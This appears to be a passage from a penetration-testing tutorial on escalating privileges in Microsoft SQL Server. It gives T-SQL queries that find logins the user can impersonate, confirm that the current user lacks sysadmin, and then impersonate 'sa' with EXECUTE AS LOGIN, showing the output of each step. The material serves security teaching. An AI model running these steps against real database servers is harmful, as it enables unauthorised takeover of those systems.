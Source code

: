 ### **Identify Users that We Can Impersonate**

```cmd-session
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO

name
-----------------------------------------------
sa
ben
valentin

(3 rows affected)
```

To get an idea of privilege escalation possibilities, let's verify if our current user has the sysadmin role:

### **Verifying our Current User and Role**

```cmd-session
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go

-----------
julio  

(1 rows affected)

-----------
          0

(1 rows affected)
```

As the returned value `0` indicates, we do not have the sysadmin role, but we can impersonate the `sa` user. Let us impersonate the user and execute the same commands. To impersonate a user, we can use the Transact-SQL statement `EXECUTE AS LOGIN` and set it to the user we want to impersonate.

### **Impersonating the SA User**

```cmd-session
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO

-----------
sa

(1 rows affected)

-----------
          1

(1 rows affected)
```
